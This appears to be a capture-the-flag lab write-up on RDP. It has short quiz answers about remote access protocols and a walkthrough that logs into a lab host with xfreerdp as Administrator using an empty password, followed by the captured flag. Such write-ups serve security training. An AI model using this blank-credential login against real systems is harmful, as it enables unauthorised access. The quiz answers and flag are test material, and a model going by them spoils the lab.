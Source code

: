TASK 1

What does the 3-letter acronym RDP stand for?

****** ******* *******l

remote desktop protocol
***

TASK 2

What is a 3-letter acronym that refers to interaction with the host through a command line interface?

cli
***

TASK 3

What about graphical user interface interactions?


gui
***

TASK 4
What is the name of an old remote access tool that came without encryption by default?

Telnet

***

What is the concept used to verify the identity of the remote host with SSH connections?

public-key cryptography

***

TASK 6
What is the name of the tool that we can use to initiate a desktop projection to our host using the terminal?

xfreerdp

***

TASK 7

What is the name of the service running on port 3389 TCP?

ms-wbt-server

***

TASK 8

What is the switch used to specify the target host's IP address when using xfreerdp?

/v:

***

# Reproduction

    ┌──(kali㉿kali)-[~]
    └─$ xfreerdp /v:10.129.18.86:3389

FAILED with empty password


    ┌──(kali㉿kali)-[~]
    └─$ xfreerdp /v:10.129.18.86:3389 /u:Administrator

SUCCESS with empty password Administrator:<_blank>

    ~/Desktop/flag.txt

# Flag

951fa96d7830c451b536be5a6be008a0
